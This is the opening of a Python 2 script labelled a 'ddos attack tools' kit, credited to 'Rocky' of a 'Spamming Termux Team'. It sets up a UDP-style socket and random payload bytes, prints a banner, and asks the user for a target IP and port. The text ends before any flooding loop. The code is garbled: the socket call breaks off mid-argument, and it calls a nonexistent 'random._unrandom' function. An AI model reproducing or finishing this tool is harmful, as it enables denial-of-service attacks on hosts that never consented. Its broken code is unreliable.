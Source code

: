#! user/binpython
#ddos attack tools
#tools v7.0
import sys
import os
import time
import socket
import random
#coding start..........
from datetime import datetime
now = datetime.now()
hour = now.hour
minute = now.minute
day = now.day
month = now.month
year = now.year

#coding for socket random ip

sock = socket.socket(socket.AF_INET, SOCK_
bytes = random._unrandom(2000)
os.system("clear")
os.system("figlet rocky")
#tools information
print
print "Author Rocky"
print "Facebook : Spamming Termux Team"
print "YouTube : RockyFf"
print
ip = raw_input("Enter your target IP:")
port = input("Enter any port:")
